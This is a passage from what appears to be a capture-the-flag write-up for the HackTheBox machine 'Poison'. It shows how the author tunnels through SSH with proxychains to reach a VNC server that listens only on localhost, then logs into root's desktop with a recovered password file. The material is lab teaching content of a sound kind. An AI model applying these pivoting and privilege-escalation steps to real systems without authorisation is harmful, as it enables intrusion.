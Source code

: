 VNC is an interactive GUI program, so it won’t do us much good to connect from poison to itself. On the other hand, the VNC ports were only listening on localhost, so we can’t access them directory from our kali workstation. We’ll, use ssh tunneling and proxychains to connect to the local listener (we could have just as easily used -L to create a point to point tunnel - for an overview on ssh tunneling, see [this post from June](/2018/06/10/intro-to-ssh-tunneling.html)):

```

root@kali# tail /etc/proxychains.conf
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 8081

root@kali# ssh charix@10.10.10.84 -D 8081

```

```

root@kali# proxychains vncviewer 127.0.0.1:5901 -passwd secret
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8081-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding

```

![](https://0xdfimages.gitlab.io/img/poison_vnc-root.png)

## Poison Configuration Details

With full access to the box, it’s always good to see what’s actually there, and if things were set up as we pictured them as we worked through it.

### Website
